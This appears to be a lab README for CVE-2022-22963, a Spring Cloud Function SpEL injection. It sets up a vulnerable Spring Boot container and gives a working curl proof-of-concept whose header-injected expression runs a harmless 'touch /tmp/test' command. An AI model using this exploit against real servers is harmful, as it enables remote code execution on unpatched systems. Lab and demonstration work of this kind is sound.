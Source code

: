 # CVE-2022-22963 - Spring4shell
To run the vulnerable SpringBoot application run this docker container exposing it to port 8080.
Example:

	docker run -it -d -p 8080:8080 bobcheat/springboot-public


## Exploit
Curl command:

	curl -i -s -k -X $'POST' -H $'Host: 192.168.1.2:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/test")' --data-binary $'exploit_poc' $'http://192.168.1.2:8080/functionRouter'

Or using Burp suite:

![Burpsuite](./burp-suite-exploit.png)

## Credits
https://github.com/hktalent/spring-spel-0day-poc

